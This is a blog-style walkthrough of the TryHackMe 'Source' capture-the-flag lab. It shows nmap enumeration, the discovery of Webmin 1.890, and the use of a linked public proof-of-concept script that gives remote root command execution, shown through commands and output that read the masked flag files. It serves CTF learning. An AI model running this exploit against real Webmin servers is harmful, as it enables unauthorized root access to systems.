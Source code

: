 ```yaml
---
title: "TryHackMe: Source"
author: cilgin
date: 2025-06-21 19:48:40 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Easy]
pin: true
math: false
mermaid: false
image:
  path: /assets/img/2025-06-21-TryHackMe-Source/Source.png
---
```


# Enumeration

## Nmap Scan

I start with exporting the target machine IP adress as a enviroment variable:

```bash
export IP=10.10.178.7
```

And running `nmap` scan on the target:

```bash
❯ nmap -T4 -n -sC -sV -Pn -p- $IP
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-21 19:50 +0300
Nmap scan report for 10.10.178.7
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.890
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.66 seconds
```

There is a open port `10000` for http running Webmin. So I `curl` the page first.

```bash
❯ curl http://$IP:10000
<h1>Error - Document follows</h1>
<p>This web server is running in SSL mode. Try the URL <a href='https://ip-10-10-178-7.eu-west-1.compute.internal:10000/'>https://ip-10-10-178-7.eu-west-1.compute.internal:10000/</a> instead.<br></p>
```

But site is not working on http so I try http.

```bash
❯ curl https://$IP:10000
curl: (60) SSL certificate problem: self-signed certificate
More details here: https://curl.se/docs/sslcerts.html

curl failed to verify the legitimacy of the server and therefore could not
establish a secure connection to it. To learn more about this situation and
how to fix it, please visit the webpage mentioned above.
```

And It's using self-signed certificates. I guess using browser is better from there.
So I hop into my browser and go the path with https.
![Desktop View](/assets/img/2025-06-21-TryHackMe-Source/photo1.png){: width="972" height="589" }

## Trying to log in as a admin

Like everyone I tried:

- admin:admin
- admin:password

But these didn't worked out. So I googled the default password for `webmin`.

Someone on the forums said this:

```text
The default user name and password is that of your root user.
```

After that I checked webmin version the server was runnning:

```text
|_http-server-header: MiniServ/1.890
```

And googled the version for any CVE's. And I found one, also found a script that exploits that security vulnerability. Here's the github repo for the script: <https://github.com/n0obit4/Webmin_1.890-POC/blob/master/Webmin_exploit.py>

```bash
❯ python script.py -host $IP -port 10000 -cmd id

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
```

And we got access with root.

## Gaining Flags

For user:

```bash
❯ python fuck.py -host $IP -port 10000 -cmd "ls /home"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
dark


~/dev/Python via  v3.13.3 (myenv)
❯ python fuck.py -host $IP -port 10000 -cmd "ls /home/dark"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
user.txt
webmin_1.890_all.deb


~/dev/Python via  v3.13.3 (myenv)
❯ python fuck.py -host $IP -port 10000 -cmd "cat /home/dark/user.txt"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
THM{*******************}
```

For root:

```bash
❯ python fuck.py -host $IP -port 10000 -cmd "cat /root/root.txt"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
THM{*******************}
```

Easy as that. Thanks you for reading my solution.
